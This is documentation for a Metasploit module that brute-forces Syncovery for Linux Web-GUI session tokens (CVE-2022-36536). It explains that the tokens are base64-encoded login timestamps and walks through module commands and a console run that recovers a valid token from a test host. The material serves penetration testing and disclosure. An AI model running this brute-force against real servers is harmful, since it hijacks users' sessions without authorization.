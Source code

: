 ## Syncovery For Linux Web-GUI Session Token Brute-Forcer

This module attempts to brute-force a valid session token for the Syncovery File Sync & Backup Software Web-GUI by generating all possible tokens, for every second between 'DateTime.now' and the given X day(s). By default today and yesterday (DAYS = 1) will be checked. If a valid session token is found, the module stops. The vulnerability exists, because in Syncovery session tokens are basically just `base64(m/d/Y H:M:S)` at the time of the login instead of a random token.
If a user does not logout, the token stays valid until next reboot. Note that the mobile version of the WEB GUI as well as the obsolete branch 8 of Syncovery do not have a logout button.

This affects Syncovery for Linux before v9.48j and all versions of the obsolete branch 8.

Installing a vulnerable version of Syncovery for Linux to test this vulnerability is quite easy.
Download a vulnerable version of Syncovery for Linux: https://www.syncovery.com/release/Syncovery-9.47a-amd64.deb
Install it and once the server is up, you can access it on port 8999 for testing...

## Authors

- Jan Rude (mgm security partners GmbH)

## Platforms

- Unix

## Verification Steps

1. `use auxiliary/scanner/http/syncovery_linux_token_cve_2022_36536`
2. `set RHOSTS <TARGET HOSTS>`
3. `run`
5. On success you should get a valid token.

## Scenarios

### Syncovery for Linux with default credentials

```
msf6 > use auxiliary/scanner/http/syncovery_linux_token_cve_2022_36536
msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > set rhosts 192.168.178.26
rhosts => 192.168.178.26
msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > options

Module options (auxiliary/scanner/http/syncovery_linux_token_cve_2022_36536):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DAYS       1                yes       Check today and last X day(s) for valid session token
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.178.26   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                no        The path to Syncovery
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > check
[+] 192.168.178.26:8999 - The target is vulnerable.
msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > run

[*] 192.168.178.26:8999 - Starting Brute-Forcer
[+] 192.168.178.26:8999 - Valid token found: 'MDkvMDYvMjAyMiAxMzo0NDoxMg=='
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Limitations
In Syncovery v9.x tokens get invalidated after the user logs out. In this case no valid token can be found.